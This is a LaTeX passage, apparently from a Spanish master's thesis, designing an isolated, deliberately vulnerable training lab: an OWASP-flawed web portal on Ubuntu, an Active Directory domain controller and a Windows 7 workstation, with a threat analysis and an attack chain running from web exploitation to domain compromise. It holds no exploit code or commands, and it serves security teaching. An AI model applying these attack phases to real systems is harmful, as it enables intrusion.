El laboratorio debe reproducir una infraestructura similar a la que podría encontrarse en una pequeña o mediana empresa, incluyendo servicios web, sistemas Windows y mecanismos de autenticación centralizada.

\item \textbf{Despliegue reproducible.}

Todos los componentes del laboratorio deben poder instalarse y configurarse mediante procedimientos documentados y automatizados que permitan recrear el entorno en distintos equipos anfitriones.

\item \textbf{Ejecución de escenarios de ataque completos.}

El entorno debe permitir la realización de cadenas de ataque que incluyan reconocimiento, explotación, escalada de privilegios, persistencia y movimiento lateral.

\item \textbf{Incorporación de vulnerabilidades reales.}

La aplicación web vulnerable debe contener fallos representativos de las categorías definidas por OWASP Top 10, permitiendo su explotación de forma controlada.

\item \textbf{Integración con Active Directory.}

El laboratorio debe incorporar una infraestructura Windows basada en Active Directory que permita realizar ejercicios de enumeración, autenticación y movimiento lateral.

\item \textbf{Aislamiento del entorno.}

La infraestructura debe ejecutarse en una red virtual aislada que impida afectar a sistemas externos durante las pruebas.


\end{enumerate}

% ----------------------------------------------------------
% IMAGEN RECOMENDADA:
% Diagrama general de alto nivel del laboratorio mostrando
% host, servidor web, DC01 y DEV01.
% ----------------------------------------------------------


% \begin{figure}[H]
%     \centering
%     
\includegraphics[width=1\textwidth]{Imagenes/Diagrama-general-alto-nivel.png}

%     \vspace{0.2cm}
%     \captionazul{Diagrama general de alto nivel del laboratorio, mostrando los principales componentes y su interconexión.}
%     \label{fig:diagrama_general_alto_nivel}
% \end{figure}



% ==========================================================
\subsection{Requisitos no funcionales}
% ==========================================================

Además de los requisitos funcionales, el laboratorio debe satisfacer una serie de requisitos no funcionales relacionados con la calidad, mantenibilidad y usabilidad de la solución.

\begin{enumerate}

\item \textbf{Reproducibilidad.}

El despliegue debe producir resultados consistentes independientemente del equipo anfitrión utilizado.

\item \textbf{Escalabilidad.}

La arquitectura debe permitir incorporar nuevas vulnerabilidades y escenarios de ataque sin necesidad de rediseñar la infraestructura existente.

\item \textbf{Mantenibilidad.}

Los distintos componentes deben encontrarse correctamente documentados para facilitar futuras modificaciones y ampliaciones.

\item \textbf{Seguridad operacional.}

La infraestructura vulnerable debe permanecer aislada del entorno de producción y de redes externas.

\item \textbf{Consumo razonable de recursos.}

Los requisitos hardware deben mantenerse dentro de unos márgenes asumibles para equipos domésticos o académicos.

\end{enumerate}

\vspace{0.5cm}
\renewcommand{\arraystretch}{1.5}

\begin{table}[h]
    \centering
    \captionazul{Resumen de requisitos no funcionales}

    \setlength{\arrayrulewidth}{0.05mm}

    \begin{tabular}{|C{4cm}|C{9cm}|}
        \hline
        \rowcolor{blue!10}
        \textbf{Categoría} & \textbf{Objetivo} \\
        \hline
        Reproducibilidad & Permitir recrear el entorno de forma consistente en diferentes equipos anfitriones. \\
        \hline
        Escalabilidad & Facilitar la incorporación de nuevos escenarios de ataque y vulnerabilidades. \\
        \hline
        Mantenibilidad & Simplificar futuras modificaciones y ampliaciones del laboratorio. \\
        \hline
        Seguridad & Mantener el aislamiento respecto a redes externas. \\
        \hline
        Rendimiento & Funcionar correctamente con recursos hardware moderados. \\
        \hline
    \end{tabular}

    \renewcommand{\arraystretch}{1}
    \label{tab:requisitos_no_funcionales}
\end{table}
\vspace{0.5cm}

% ==========================================================
\subsection{Análisis de amenazas y superficie de ataque}
% ==========================================================

El laboratorio se ha diseñado para representar una organización expuesta a amenazas habituales presentes en entornos corporativos actuales. Para ello se han identificado los principales activos, vectores de entrada y superficies de ataque susceptibles de ser comprometidas por un atacante externo.

La superficie de ataque principal se encuentra representada por la aplicación web vulnerable publicada en el servidor Ubuntu. Este sistema constituye el punto inicial de acceso al entorno y concentra la mayor parte de las vulnerabilidades implementadas.

Una vez comprometido el servidor web, el atacante puede acceder a información sensible, credenciales almacenadas incorrectamente o mecanismos inseguros de configuración que permiten ampliar el alcance del ataque.

La presencia de una infraestructura Active Directory introduce una segunda superficie de ataque relacionada con la autenticación, la gestión de privilegios y el movimiento lateral dentro de la red interna.

Las amenazas consideradas durante el diseño del laboratorio incluyen:

% \begin{itemize}
%     \item \textbf{Explotación de vulnerabilidades web:} relacionada principalmente con OWASP A05 \textit{Injection}, OWASP A01 \textit{Broken Access Control} y técnicas MITRE de acceso inicial.

%     \item \textbf{Robo y reutilización de credenciales:} asociado a OWASP A07 \textit{Authentication Failures} y a la táctica MITRE \textit{Credential Access}.

%     \item \textbf{Escalada local de privilegios:} vinculada a configuraciones inseguras del sistema y a la táctica MITRE \textit{Privilege Escalation}.

%     \item \textbf{Movimiento lateral entre sistemas:} relacionado con la táctica MITRE \textit{Lateral Movement}, especialmente tras obtener credenciales válidas en la red interna.

%     \item \textbf{Persistencia en sistemas comprometidos:} asociada a la táctica MITRE \textit{Persistence}, permitiendo mantener acceso tras el compromiso inicial.

%     \item \textbf{Acceso no autorizado a información sensible:} vinculado a OWASP A01 \textit{Broken Access Control} y OWASP A04 \textit{Cryptographic Failures}.

%     \item \textbf{Abuso de configuraciones inseguras:} relacionado con OWASP A02 \textit{Security Misconfiguration} y con técnicas MITRE de descubrimiento, escalada y movimiento lateral.
% \end{itemize}

\begin{itemize} 
    \item Explotación de vulnerabilidades web. 
    \item Robo de credenciales.
    \item Escalada local de privilegios. 
    \item Movimiento lateral entre sistemas. 
    \item Persistencia en sistemas comprometidos. 
    \item Acceso no autorizado a información sensible. 
    \item Abuso de configuraciones inseguras. 
\end{itemize}
\vspace{0.5cm}
\renewcommand{\arraystretch}{1.2}

\begin{table}[H]
    \centering
    \captionazul{Activos y vectores de ataque considerados}

    \setlength{\arrayrulewidth}{0.05mm}

    \begin{tabular}{|C{4cm}|C{5cm}|C{5cm}|}
        \hline
        \rowcolor{blue!10}
        \textbf{Activo} & \textbf{Amenaza principal} & \textbf{Impacto} \\
        \hline
        Aplicación web & Explotación de vulnerabilidades OWASP & Acceso inicial al entorno \\
        \hline
        Servidor Ubuntu & Escalada de privilegios & Compromiso total del sistema \\
        \hline
        Estación DEV01 & Movimiento lateral & Acceso a recursos internos \\
        \hline
        Active Directory & Robo de credenciales & Control del dominio \\
        \hline
        Base de datos & Acceso no autorizado & Exposición de información sensible \\
        \hline
    \end{tabular}

    \renewcommand{\arraystretch}{1}
    \label{tab:superficie_ataque}
\end{table}
\vspace{0.5cm}


La Tabla~\ref{tab:superficie_ataque} resume los principales activos presentes en el laboratorio y las amenazas asociadas a cada uno de ellos. No obstante, estas amenazas no deben entenderse como eventos aislados, sino como etapas que pueden encadenarse para construir una intrusión completa.

La Figura~\ref{fig:flujo_ataque_laboratorio} representa una posible cadena de ataque sobre la infraestructura diseñada. El escenario parte de la explotación de vulnerabilidades presentes en la aplicación web, continúa con la obtención de acceso al servidor Ubuntu y culmina con el compromiso de los sistemas internos y de la infraestructura Active Directory. Este flujo permite reproducir de forma controlada las distintas fases que suelen observarse en ejercicios de Red Team y pruebas de penetración sobre entornos corporativos.

El flujo representado debe interpretarse como una secuencia lógica de compromiso, no como un conjunto de acciones independientes. Cada fase proporciona información, acceso o privilegios que habilitan la siguiente etapa del ataque. De este modo, la explotación inicial de la aplicación web permite alcanzar el servidor Ubuntu; el compromiso de este sistema facilita la obtención de credenciales y el acceso a la red interna; y, finalmente, dichas credenciales pueden utilizarse para enumerar Active Directory y realizar movimiento lateral hacia otros equipos del dominio.

Esta representación permite justificar la selección de activos y amenazas realizada durante el análisis. El laboratorio no busca únicamente mostrar vulnerabilidades aisladas, sino evidenciar cómo la combinación de errores web, configuraciones inseguras, exposición de credenciales y servicios internos puede derivar en un compromiso progresivo de la infraestructura.

\vfill
\begin{figure}[H]
    \centering

   \begin{tikzpicture}[
        node distance=0.9cm,
        fase/.style={
            rectangle,
            rounded corners,
            draw=blueColor,
            fill=blue!8,
            text width=7cm,
            align=center,
            minimum height=1.1cm,
            font=\normalsize
        },
        final/.style={
            rectangle,
            rounded corners,
            draw=green!70,
            fill=green!8,
            text width=7cm,
            align=center,
            minimum height=1.1cm,
            font=\normalsize
        },
        sistema/.style={
            rectangle,
            rounded corners,
            draw=red!70,
            fill=red!8,
            text width=7cm,
            align=center,
            minimum height=1.1cm,
            font=\normalsize
        },
        flecha/.style={
            -{Latex[length=2.5mm]},
            thick
        }
    ]

        \node[fase] (recon) {1. Reconocimiento\\Enumeración de servicios expuestos};
        \node[fase, below=of recon] (web) {2. Explotación web\\Portal PYME vulnerable};
        \node[sistema, below=of web] (ubuntu) {3. Acceso inicial\\Servidor Ubuntu};
        \node[fase, below=of ubuntu] (priv) {4. Escalada de privilegios\\Compromiso del servidor};
        \node[fase, below=of priv] (creds) {5. Obtención de credenciales\\Usuarios y servicios internos};
        \node[sistema, below=of creds] (lateral) {6. Movimiento lateral\\DEV01};
        \node[sistema, below=of lateral] (ad) {7. Enumeración interna\\Active Directory / DC01};
        \node[final, below=of ad] (dominio) {8. Compromiso final\\Infraestructura corporativa};

        \draw[flecha] (recon) -- (web);
        \draw[flecha] (web) -- (ubuntu);
        \draw[flecha] (ubuntu) -- (priv);
        \draw[flecha] (priv) -- (creds);
        \draw[flecha] (creds) -- (lateral);
        \draw[flecha] (lateral) -- (ad);
        \draw[flecha] (ad) -- (dominio);

    \end{tikzpicture}
    \vspace{0.5cm}
    \captionazul{Flujo general de ataque planteado en el laboratorio.}
    \label{fig:flujo_ataque_laboratorio}
\end{figure}
\vfill


% ----------------------------------------------------------
% IMAGEN RECOMENDADA:
% Diagrama de flujo de ataque mostrando:
% Web -> Ubuntu -> Credenciales -> AD -> DEV01
% ----------------------------------------------------------



% % ==========================================================
% \subsection{Justificación del uso de OWASP y MITRE ATT\&CK}
% % ==========================================================

% La selección de OWASP Top 10 y MITRE ATT\&CK como marcos de referencia responde a la necesidad de fundamentar el laboratorio sobre estándares ampliamente aceptados dentro del ámbito de la ciberseguridad.

% OWASP Top 10 constituye una de las referencias más utilizadas para la identificación y clasificación de vulnerabilidades presentes en aplicaciones web. Su adopción permite incorporar al laboratorio fallos representativos que reflejan problemas observados de forma recurrente en entornos reales.

% Por su parte, MITRE ATT\&CK proporciona una base de conocimiento estructurada sobre tácticas, técnicas y procedimientos empleados por atacantes reales durante distintas fases de una intrusión. Este marco facilita la modelización de cadenas de ataque completas y permite relacionar cada escenario implementado con técnicas reconocidas por la comunidad de seguridad.

% La combinación de ambos enfoques permite cubrir tanto la perspectiva defensiva asociada a las vulnerabilidades como la perspectiva ofensiva relacionada con las técnicas de explotación utilizadas para comprometer los sistemas.

% \vspace{0.5cm}
% \renewcommand{\arraystretch}{1.5}

% \begin{table}[h]
%     \centering
%     \captionazul{Relación entre componentes del laboratorio y marcos de referencia}

%     \setlength{\arrayrulewidth}{0.05mm}

%     \begin{tabular}{|C{6cm}|C{3cm}|C{3cm}|}
%         \hline
%         \rowcolor{blue!10}
%         \textbf{Elemento} & \textbf{OWASP} & \textbf{MITRE ATT\&CK} \\
%         \hline
%         Aplicación web vulnerable & Sí & Si \\
%         \hline
%         Escalada de privilegios & No & Sí \\
%         \hline
%         Movimiento lateral & No & Sí \\
%         \hline
%         Credenciales inseguras & Sí & Sí \\
%         \hline
%         Persistencia & No & Sí \\
%         \hline
%         Cadena completa de ataque & Sí & Sí \\
%         \hline
%     \end{tabular}

%     \renewcommand{\arraystretch}{1}
%     \label{tab:owasp_mitre}
% \end{table}
% \vspace{0.5cm}

% ----------------------------------------------------------
% IMAGEN RECOMENDADA:
% Matriz simplificada relacionando las vulnerabilidades
% implementadas con técnicas MITRE ATT&CK.
% ----------------------------------------------------------


% 5 Diseño del laboratorio
\cleartooddpage
\vspace*{-1cm}

\nombreCapituloCabecera{RH}{Diseño del laboratorio}

\section{Diseño del laboratorio}
\label{sec:diseno_del_laboratorio}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{Imagenes/Diagrama-completo.png}

    \vspace{0.2cm}
    \captionazul{Diagrama completo de la infraestructura del laboratorio, mostrando los sistemas, servicios, segmentos de red y relaciones entre componentes.}

    \label{fig:diagrama_completo_laboratorio}
\end{figure}


El diseño del laboratorio constituye uno de los elementos fundamentales del proyecto, ya que determina la forma en la que se desarrollarán los distintos escenarios de ataque y condiciona la capacidad del entorno para reproducir situaciones reales. El objetivo principal ha sido construir una infraestructura que simule una pequeña organización con servicios expuestos a Internet y una red interna basada en tecnologías Microsoft, permitiendo encadenar diferentes fases de una intrusión de forma controlada.

Para ello se ha optado por una arquitectura compuesta por varios sistemas virtualizados que representan distintos activos de una empresa. Esta aproximación permite separar los diferentes servicios, facilitar la gestión del entorno y reproducir de forma más realista las técnicas utilizadas habitualmente durante ejercicios de Red Team y pruebas de penetración.

La infraestructura resultante combina sistemas Linux y Windows, servicios web basados en PHP con docker y apache, Active Directory y estaciones de trabajo corporativas, proporcionando múltiples superficies de ataque y permitiendo la ejecución de escenarios que abarcan desde la explotación inicial de una vulnerabilidad web hasta el compromiso
completo de una infraestructura interna.

% ==========================================================
\subsection{Arquitectura general}
% ==========================================================

La arquitectura general del laboratorio ha sido diseñada siguiendo una estructura escalonada que obliga al atacante a progresar a través de distintas fases de compromiso. De esta forma, el acceso a los sistemas internos no es directo, sino que requiere explotar vulnerabilidades, obtener credenciales y realizar movimientos laterales similares a los que se producen en ataques reales.

El entorno está compuesto por tres máquinas virtuales principales que  onstituyen la infraestructura vulnerable:

\begin{itemize}
    \item Un servidor Ubuntu Server 22.04 encargado de alojar la aplicación web
          vulnerable.
    \item Un controlador de dominio Windows Server 2012 denominado \texttt{DC01}.
    \item Una estación de trabajo Windows 7 denominada \texttt{DEV01}.
\end{itemize}

Estas máquinas representan los principales elementos que pueden encontrarse en una pequeña o mediana empresa y permiten implementar escenarios de ataque progresivos que combinan vulnerabilidades web con técnicas de post-explotación sobre entornos Windows.

La máquina atacante no forma parte del laboratorio vulnerable como tal. Dependiendo del escenario de despliegue, el usuario puede utilizar directamente el sistema anfitrión como plataforma de ataque si dispone de una distribución especializada como Kali Linux o Parrot OS, o bien desplegar una máquina virtual adicional dedicada a tareas ofensivas.

El diseño busca mantener un equilibrio entre realismo y simplicidad. Por un lado, incorpora suficientes componentes para permitir escenarios complejos de explotación; por otro, evita una infraestructura excesivamente grande que dificultaría su despliegue en equipos domésticos o académicos.

% IMAGEN RECOMENDADA
% Diagrama general de la arquitectura mostrando:
% Host -> Ubuntu Web -> DC01 -> DEV01

% ==========================================================
\subsubsection{Arquitectura física}
% ==========================================================

Desde una perspectiva física, toda la infraestructura se ejecuta sobre un único equipo anfitrión utilizando VMware Workstation como plataforma de virtualización. Cada sistema se encuentra encapsulado en una máquina virtual independiente, permitiendo asignar recursos específicos a cada componente y facilitando la gestión del laboratorio.

La utilización de máquinas virtuales aporta varias ventajas relevantes para este proyecto. En primer lugar, permite mantener completamente aislado el entorno vulnerable respecto al sistema anfitrión. En segundo lugar, facilita la creación de instantáneas que permiten restaurar rápidamente el estado del laboratorio después de una explotación o durante las tareas de validación. Finalmente, mejora la portabilidad del proyecto, ya que las máquinas pueden trasladarse entre distintos equipos sin necesidad de repetir todo el proceso de instalación.

Cada máquina virtual dispone de una función específica dentro de la infraestructura. El servidor Ubuntu aloja los servicios expuestos al exterior y constituye el principal punto de entrada para el atacante. El controlador de dominio centraliza la autenticación y la gestión de usuarios dentro de la red corporativa, mientras que la estación de trabajo representa un equipo interno susceptible de ser comprometido mediante técnicas de movimiento lateral.

Esta distribución permite reproducir de forma realista la separación habitual entre sistemas expuestos y sistemas internos presente en muchas organizaciones.

Las Figuras~\ref{fig:configuracion_maquinas_virtuales} y~\ref{fig:configuracion_vm} recogen la configuración física asignada a las máquinas virtuales del laboratorio. La primera resume los parámetros principales de cada sistema, incluyendo recursos hardware, direccionamiento de red y rol dentro de la infraestructura. La segunda muestra dicha configuración desde VMware Workstation, permitiendo comprobar la asignación real de memoria, CPU, disco e interfaces de red utilizadas durante el despliegue.

\begin{figure}[H]
\centering

\begin{minipage}[t]{0.33\textwidth}
\begin{tcolorbox}[
    colback=orange!5,
    colframe=orange!70!black,
    title=\small\textbf{🧱 Ubuntu Server 22.04},
    fonttitle=\bfseries,
    boxrule=0.5pt]

\footnotesize
\textbf{Nombre}\\
\texttt{ubuntu-server-TFM}

\vspace{0.2cm}

\textbf{ISO}\\
ubuntu-22.04.4-live-server-amd64.iso

\vspace{0.2cm}

\textbf{CPU}: 2 cores

\textbf{RAM}: 3 GB

\textbf{Disco}: 40 GB (thin)

\textbf{VMnet8}: DHCP

\textbf{VMnet10}: 10.10.10.10/24

\textbf{Rol}\\
Servidor web vulnerable

\end{tcolorbox}
\end{minipage}
\hfill
\begin{minipage}[t]{0.30\textwidth}
\begin{tcolorbox}[
    colback=cyan!5,
    colframe=cyan!70!black,
    title=\small\textbf{💻 DEV01},
    fonttitle=\bfseries,
    boxrule=0.5pt]

\footnotesize
\textbf{Nombre}\\
DEV01

\vspace{0.2cm}

\textbf{ISO}\\
Windows 7 Professional

\vspace{0.2cm}

\textbf{CPU}: 2 cores

\textbf{RAM}: 3 GB

\textbf{Disco}: 40 GB (thin)

\textbf{IP}: 10.10.10.20/24

\textbf{Rol}\\
Estación de trabajo

\end{tcolorbox}
\end{minipage}
\hfill
\begin{minipage}[t]{0.30\textwidth}
\begin{tcolorbox}[
    colback=blue!5,
    colframe=blue!70!black,
    title=\small\textbf{🪟 DC01},
    fonttitle=\bfseries,
    boxrule=0.5pt]

\footnotesize
\textbf{Nombre}\\
DC01

\vspace{0.2cm}

\textbf{ISO}\\
Windows Server 2012

\vspace{0.2cm}

\textbf{CPU}: 2 cores

\textbf{RAM}: 4 GB

\textbf{Disco}: 60 GB (thin)

\textbf{IP}: 10.10.10.5/24

\textbf{Dominio}: corp.local

\textbf{Rol}\\
Controlador de dominio

\end{tcolorbox}
\end{minipage}

\vspace{0.3cm}

\captionazul{Configuración de las máquinas virtuales que componen la infraestructura del laboratorio.}
\label{fig:configuracion_maquinas_virtuales}

\end{figure}


\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{Imagenes/configuracion-VM-vmware.jpg}

    \vspace{0.2cm}
    \captionazul{Configuración de las máquinas virtuales en VMware Workstation, mostrando la asignación de recursos hardware para cada sistema.}
    \label{fig:configuracion_vm}
\end{figure}



% ==========================================================
\subsubsection{Optimización de recursos}
% ==========================================================

Uno de los objetivos perseguidos durante el diseño del laboratorio ha sido garantizar que la infraestructura pudiera ejecutarse sobre equipos domésticos o académicos sin requerir una gran capacidad hardware.

Aunque VMware Workstation propone configuraciones de memoria superiores para los sistemas operativos utilizados, se realizaron diversas pruebas de ajuste con el objetivo de determinar los recursos mínimos necesarios para mantener un funcionamiento estable del entorno.

Tras varias iteraciones se comprobó que era posible reducir significativamente la memoria asignada a las máquinas virtuales sin afectar al correcto desarrollo de los escenarios de ataque ni al funcionamiento de los servicios desplegados. La Tabla~\ref{tab:optimizacion_memoria} resume la configuración mínima validada durante las pruebas realizadas.

\vspace{0.5cm}
\renewcommand{\arraystretch}{1.4}

\begin{table}[H]
    \centering
    \captionazul{Configuración mínima de memoria validada para las máquinas virtuales}

    \begin{tabular}{|C{6cm}|C{3cm}|}
        \hline
        \rowcolor{blue!10}
        \textbf{Sistema} & \textbf{Memoria RAM}  \\
        \hline
        Ubuntu Server 22.04 & 1.5 GB  \\
        \hline
        DC01 (Windows Server 2012) & 1.2 GB  \\
        \hline
        DEV01 (Windows 7) & 1.5 GB  \\
        \hline
    \end{tabular}

    \renewcommand{\arraystretch}{1}
    \label{tab:optimizacion_memoria}
\end{table}

Estas pruebas permitieron reducir el consumo total de memoria de la infraestructura hasta aproximadamente 4.2 GB, lo que facilita la ejecución simultánea de todas las máquinas virtuales incluso en equipos con recursos limitados.

La reducción de recursos no afecta al comportamiento del laboratorio ni a la reproducibilidad de las cadenas de ataque implementadas, manteniendo el equilibrio entre realismo y accesibilidad que se persigue en este proyecto.

\begin{figure}[H]
    \centering

    \begin{subfigure}{1\textwidth}
        \centering
        
\includegraphics[width=\textwidth]{Imagenes/memoria-optimizada-WEB-SERVER.png}
        \subcaption{\textcolor{blueColor}Servidor web Ubuntu}
    \end{subfigure}

    \vspace{0.5cm}

    \begin{subfigure}{1\textwidth}
        \centering
        
\includegraphics[width=\textwidth]{Imagenes/memoria-optimizada-DC01.png}
        \subcaption{\textcolor{blueColor}Controlador de dominio DC01}
    \end{subfigure}

    \vspace{0.5cm}

    \begin{subfigure}{1\textwidth}
        \centering
        
\includegraphics[width=\textwidth]{Imagenes/memoria-optimizada-Dev01.png}
        \subcaption{\textcolor{blueColor}Estación de trabajo DEV01}
    \end{subfigure}

    \vspace{0.5cm}
    \captionazul{Optimización de la memoria RAM asignada a las máquinas virtuales del laboratorio.}
    \label{fig:optimizacion_memoria_lab}
\end{figure}


Las capturas mostradas en la Figura~\ref{fig:optimizacion_memoria_lab} evidencian el consumo real de memoria de las tres máquinas virtuales tras completar el proceso de optimización. Los resultados obtenidos demuestran que tanto Windows Server 2012 como Windows 7 y Ubuntu Server mantienen una cantidad suficiente de memoria disponible para ejecutar los servicios necesarios del laboratorio.

En el caso del controlador de dominio DC01, con únicamente 1.2 GB de memoria asignada, el sistema conserva aproximadamente 400 MB libres una vez iniciados Active Directory y el servicio DNS. De forma similar, la estación de trabajo DEV01 dispone de cerca de 900 MB disponibles con una asignación total de 1.5 GB, mientras que el servidor Ubuntu mantiene alrededor de 500 MB de memoria disponible tras el despliegue de Docker y del portal vulnerable.

Estos resultados confirman que las recomendaciones de memoria propuestas por VMware Workstation pueden reducirse considerablemente para este escenario concreto sin comprometer la estabilidad de los servicios ni la reproducibilidad de las cadenas de ataque implementadas.

La optimización realizada permite ejecutar simultáneamente toda la infraestructura utilizando aproximadamente 4.2 GB de memoria RAM, facilitando el despliegue del laboratorio en equipos domésticos o académicos con recursos limitados y contribuyendo a uno de los objetivos principales del proyecto: proporcionar un entorno de entrenamiento accesible sin renunciar al realismo del escenario.

Los valores de memoria finalmente adoptados fueron utilizados durante todas las pruebas de validación y explotación descritas en el Capítulo~\ref{sec:explotacion_del_laboratorio}, verificándose que no introducen limitaciones apreciables en el desarrollo de los distintos escenarios ofensivos implementados.

% ==========================================================
\subsubsection{Arquitectura lógica}
% ==========================================================

A nivel lógico, la infraestructura se divide en dos niveles de acceso que representan las distintas fases de compromiso que debe superar un atacante.

El primer nivel está formado por los servicios accesibles inicialmente desde la red del atacante. Dentro de este nivel se encuentra el portal web vulnerable desplegado sobre Ubuntu Server sobre un contenedor Docker, que actúa como punto de entrada principal al laboratorio.

El segundo nivel corresponde a la infraestructura interna basada en Active Directory. Esta red contiene los sistemas corporativos que no son accesibles directamente desde el exterior y que requieren un compromiso previo para poder ser alcanzados. El acceso a estos sistemas obliga al atacante a obtener credenciales válidas, realizar tarea  de enumeración y aprovechar relaciones de confianza existentes dentro de la infraestructura.

La separación lógica entre estos niveles no solo mejora el realismo del laboratorio, sino que también permite analizar con mayor claridad las distintas etapas de un ataque y estudiar cómo pequeños fallos de seguridad pueden combinarse para producir un compromiso completo de la organización.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{Imagenes/activos-ataque.png}

    \vspace{0.2cm}
    \captionazul{Diagrama de la arquitectura lógica del laboratorio, mostrando los niveles de acceso y las relaciones entre los distintos sistemas.}
    \label{fig:arquitectura_logica}
\end{figure}



% ==========================================================
\subsubsection{Segmentación de red}
% ==========================================================

